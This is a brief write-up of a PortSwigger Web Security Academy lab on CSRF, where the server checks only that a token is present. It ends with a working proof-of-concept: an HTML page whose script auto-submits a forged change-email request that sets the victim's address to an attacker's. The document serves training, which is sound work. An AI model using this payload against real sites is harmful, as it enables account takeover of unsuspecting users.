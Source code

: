 ```yaml
---
title: CSRF where token validation depends on token being present
tags:
  - web-app
  - csrf
  - cross
  - site
  - request
  - forgery
---
```


<a href="https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present/">
3. CSRF where token validation depends on token being present</a>

This web application is vulnerable to CSRF. An API endpoint and its parameters
are well known, and actions can be taken using a user's cookie without verifying
the redirecting page. The browser reuses the cookie for this site and submits a
POST request on the user's behalf, forging the request. Usually a CSRF token is
used to prevent this, however, the server only checks if the token is present,
not if it is correct.

Solution:

```html
<html>
  <body>
    <form
      action="https://3.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        type="hidden"
        name="email"
        value="pwned&#64;evil&#45;user&#46;net"
      />
    </form>
    <script>
      history.pushState("", "", "/")
      document.forms[0].submit()
    </script>
  </body>
</html>
```
